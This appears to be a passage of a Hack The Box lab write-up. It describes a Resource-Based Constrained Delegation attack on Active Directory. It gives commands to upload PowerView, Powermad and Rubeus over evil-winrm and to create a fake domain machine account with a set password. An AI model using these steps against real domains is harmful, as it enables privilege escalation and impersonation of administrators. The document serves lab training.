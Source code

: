 ### RBCD Attack
In a nutshell, the Resource-Based Constrained Delegation (RBCD) attack works like this:
1. **Step 1** – Add Fake Computer to the Domain: The attacker controls a computer (let’s call it $FAKE-COMP01) and adds it to the domain.
2. **Step 2** – Set Up the Fake Computer to Act on Behalf of the Domain Controller (DC).
3. **Step 3** – Generate Kerberos Tickets: The attacker requests Kerberos tickets for $FAKE-COMP01.
4. **Step 4** – Impersonate a Privileged User: The attacker uses Pass-the-Ticket (PtT) to authenticate as a privileged user, like the Administrator.

We need to verify that msds-allowedtoactonbehalfofotheridentity attribute is empty. We need to upload PowerView.ps1 to the victim using evil-winrm.

Find it:

```bash
find / 2>/dev/null | grep PowerView.ps1
```

Copy it to directory in where you open evil-winrm session:

```bash
cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 ~/HTB/Support/PowerView.ps1
```

Upload it to the victim using our evil-winrm session:

```bash
upload PowerView.ps1
```

Upload Powermad.ps1 as well from [here](https://github.com/Kevin-Robertson/Powermad) and Upload Rabeus.exe:


Now in the victim's machine:

```powershell
Import-Module .\Powermad.ps1
```

![alt text](Snapshots/Support-image-2.png)

Now we see that we can create new computers since our machineaccountquota is 10.

### Creating Fake Machine
```powershell
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

**creds**:
```plaintext
FAKE-COMP01:Password123
```
